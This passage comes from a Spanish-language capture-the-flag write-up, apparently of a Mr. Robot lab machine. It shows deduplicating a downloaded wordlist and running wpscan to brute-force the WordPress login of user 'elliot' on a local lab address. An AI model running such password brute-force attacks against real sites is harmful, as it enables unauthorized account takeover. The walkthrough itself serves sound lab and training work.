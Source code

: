            ![login](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%207.png)
            
        - Teniendo un usuario válido, lanzaremos el ataque de fuerza bruta con la herramienta **wpscan** ( puedes utilizar cualquier otra ).
        - Para asegurarnos de que el ataque sea lo mas optimo posible, eliminaremos todos los registros que se repitan en el diccionario que nos hemos descargado antes.
        
        ```bash
        sort fsocity.dic | uniq > fsocity-sorted.dic
        ```
        
        - Lanzamos el ataque:
        
        ```bash
        wpscan --url http://192.168.1.12/ --wp-content-dir wp-admin --usernames elliot --passwords fsocity-sorted.dic  
        ```
        
        ![wpscan](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%208.png)
        
